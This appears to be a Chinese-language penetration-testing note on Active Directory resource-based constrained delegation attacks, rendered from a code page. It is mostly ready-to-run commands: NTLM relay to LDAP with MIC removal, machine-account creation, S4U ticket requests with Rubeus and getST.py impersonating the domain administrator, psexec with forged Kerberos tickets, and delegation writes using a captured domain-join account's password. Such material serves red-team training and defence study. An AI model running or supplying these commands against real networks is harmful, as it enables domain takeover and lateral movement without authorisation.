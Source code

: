 ### 常规利用

#### Relay

```bash
自动创建一个机器账户，密码随机。需要ldaps。
python3 ntlmrelayx.py -t ldaps://10.10.10.10 -debug --remove-mic --delegate-access  -smb2support
指定机器账户
python3 ntlmrelayx.py -t ldap://10.10.10.10 -debug --remove-mic --delegate-access --escalate-user testpc\$ 
```

![image.png](https://s2.loli.net/2022/03/06/YHO792xnlfg4RjS.png)

```bash
python3 getST.py -impersonate 'administrator' -spn 'cifs/WEB2.adc.com'  -dc-ip 10.10.10.10 'adc.com/USCJNQTK\$:'
export KRB5CCNAME=administrator.ccache
python3 psexec.py -no-pass -k 'adc.com/administrator@web2.adc.com'
```

![image.png](https://s2.loli.net/2022/03/06/KMP5qg6jDSIQE34.png)

```bash
计算hash
.\Rubeus.exe hash /domain:adc.com /user:USCJNQTK$ /password:"iJ'vp3V>'4De}tf"
请求st
.\Rubeus.exe s4u /user:USCJNQTK$ /aes256:64033274241a7f086ce4254fc8a46072810c021013a546c807bad5421d33f7b6 /impersonateuser:Administrator /msdsspn:host/web2.adc.com /altservice:cifs /domain:adc.com /nowrap /ptt

.\Rubeus.exe s4u /user:USCJNQTK$ /aes256:64033274241a7f086ce4254fc8a46072810c021013a546c807bad5421d33f7b6 /impersonateuser:Administrator /msdsspn:host/web2.adc.com /altservice:cifs /domain:adc.com /nowrap /ptt

```

![image.png](https://s2.loli.net/2022/03/06/UYEvTO8gGwkHaJK.png)

#### 加域账户

> 当一个用户给一台机器加域后，该用户就对该机器具有写属性权限（WriteProperty）。而企业中往往都会有一个专门的加域用户，当我们拿到了这个加域用户的凭据后，我们就可以通过RBCD控制由该用户加入域内所有机器的权限。
>

首先假设我们抓到了加域账户（`join`）的哈希或密码。

```bash
python3 rbcd.py -delegate-to 'web2' -action read 'adc.com/join:song@2020' -dc-ip 10.10.10.10
python3 rbcd.py -delegate-to 'web2' -delegate-from USCJNQTK  -action write 'adc.com/join:song@2020' -dc-ip 10.10.10.10
python3 rbcd.py -delegate-to 'web2' -action read 'adc.com/join:song@2020' -dc-ip 10.10.10.10
python3 getST.py -impersonate 'administrator' -spn 'cifs/WEB2.adc.com'  -dc-ip 10.10.10.10 'adc.com/USCJNQTK\$:'

```
